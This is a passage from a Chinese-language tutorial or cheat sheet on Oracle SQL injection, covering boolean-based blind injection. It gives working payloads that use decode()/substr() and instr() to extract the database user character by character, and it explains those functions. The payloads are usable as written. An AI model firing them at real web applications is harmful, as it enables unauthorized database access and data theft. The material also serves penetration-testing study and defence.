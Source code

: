 **dbms_xmlschema.generateschema**

---

### **四、布尔盲注**

如果页面没有报错，但是可以通过页面返回是否正常来判断 SQL 语句是否被执行，此时可以尝试布尔型盲注。主要通过 ASCII()、substr() 等组合判断来获取数据。

**decode()**
`' and 1=(select decode(substr(user,$1$,1),'$A$',1,0) from dual)-- `

该语句表示，如果 user 的第一位的值是 'A'，则返回1，否则返回0。

> 注：加 $ 处表示爆破点。

```
substr(参数1, 参数2, 参数3)

参数1：要截取的字符串

参数2：起始位置

参数3：截取长度

从字符串 [参数1] 中 [参数2] 的位置为起点，截取长度为 [参数3] 的字符串。
```

```
decode(参数1， 参数2，参数3，参数4，...， 参数n)

参数1：条件

参数2：判断值1

参数3：返回值1

参数4：判断值2

参数5：返回值2

...

参数n：缺省值

如果 [条件] 等于 [判断值x]，则返回 [返回值x]，否则返回 [缺省值]。
```

**instr()**
`' and 1=(instr((select user from dual),'SYS'))`

该语句表示，如果在 user 中存在 'SYS'，则返回 'SYS' 在字符串中的位置，否则则返回0。

```
instr(参数1，参数2)

参数1：被查询字符串

参数2：查询字符串

在 [被查询字符串] 中查询是否存在 [查询字符串]，如果存在则返回 [查询字符串] 在 [被查询字符串] 中的位置，否则返回0。
```

---